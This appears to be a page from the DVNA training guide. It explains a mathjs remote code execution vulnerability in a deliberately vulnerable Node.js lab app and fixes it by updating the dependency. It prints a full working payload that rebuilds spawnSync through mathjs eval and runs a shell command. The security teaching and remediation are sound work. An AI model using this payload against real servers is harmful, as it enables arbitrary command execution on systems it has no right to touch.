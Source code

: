 # Using Components with Known Vulnerabilities

## mathjs Remote Code Execution

The version of mathjs(https://www.npmjs.com/package/mathjs) library used in the application has a remote code execution vulnerability that allows an attacker to run arbitrary code on the server. 

To understand how the exploit works, look at [this](https://capacitorset.github.io/mathjs/)

The calculator implementation uses `mathjs.eval` to evaluate user input at

http://127.0.0.1:9090/app/calc

There is no input validation either, probably because it is going to be a maths equation which will contain symbols

Malicious input that triggers command execution
```
cos.constructor("spawn_sync = process.binding('spawn_sync'); normalizeSpawnArguments = function(c,b,a){if(Array.isArray(b)?b=b.slice(0):(a=b,b=[]),a===undefined&&(a={}),a=Object.assign({},a),a.shell){const g=[c].concat(b).join(' ');typeof a.shell==='string'?c=a.shell:c='/bin/sh',b=['-c',g];}typeof a.argv0==='string'?b.unshift(a.argv0):b.unshift(c);var d=a.env||process.env;var e=[];for(var f in d)e.push(f+'='+d[f]);return{file:c,args:b,options:a,envPairs:e};};spawnSync = function(){var d=normalizeSpawnArguments.apply(null,arguments);var a=d.options;var c;if(a.file=d.file,a.args=d.args,a.envPairs=d.envPairs,a.stdio=[{type:'pipe',readable:!0,writable:!1},{type:'pipe',readable:!1,writable:!0},{type:'pipe',readable:!1,writable:!0}],a.input){var g=a.stdio[0]=util._extend({},a.stdio[0]);g.input=a.input;}for(c=0;c<a.stdio.length;c++){var e=a.stdio[c]&&a.stdio[c].input;if(e!=null){var f=a.stdio[c]=util._extend({},a.stdio[c]);isUint8Array(e)?f.input=e:f.input=Buffer.from(e,a.encoding);}}console.log(a);var b=spawn_sync.spawn(a);if(b.output&&a.encoding&&a.encoding!=='buffer')for(c=0;c<b.output.length;c++){if(!b.output[c])continue;b.output[c]=b.output[c].toString(a.encoding);}return b.stdout=b.output&&b.output[1],b.stderr=b.output&&b.output[2],b.error&&(b.error= b.error + 'spawnSync '+d.file,b.error.path=d.file,b.error.spawnargs=d.args.slice(1)),b;}")();cos.constructor("return spawnSync('id').output[1]")()
```

Which results in this
![rce](../resources/rce.png "Command Execution")

**Solution**

Modify fixed version to compatible version in `package.json`
```
...
    "flash": "^1.1.0",
    "mathjs": "^3.10.1",   // Add ^ to install latest compatible version
    "md5": "^2.2.1",
...
```

Now install the package again by running `npm install`

**Fixes**

Implemented in the following files

- *package.json*

The fix has been implemented in this [commit](https://github.com/appsecco/dvna/commit/5f1a4ca4c8262419321c3790757ae8719d9676a7)

**Recommendation**

- Dependencies must be updated regularly, and preferably automatically. 
- Solutions like [Snyk](https://snyk.io/) and [NSP](https://nodesecurity.io/) can regularly monitor your dependencies and alert you of any vulnerable dependencies.

**Reference**

- <https://www.owasp.org/index.php/Top_10-2017_A9-Using_Components_with_Known_Vulnerabilities>
- <https://blog.travis-ci.com/2017-04-20-continuous-security-snyk-travis-ci/>
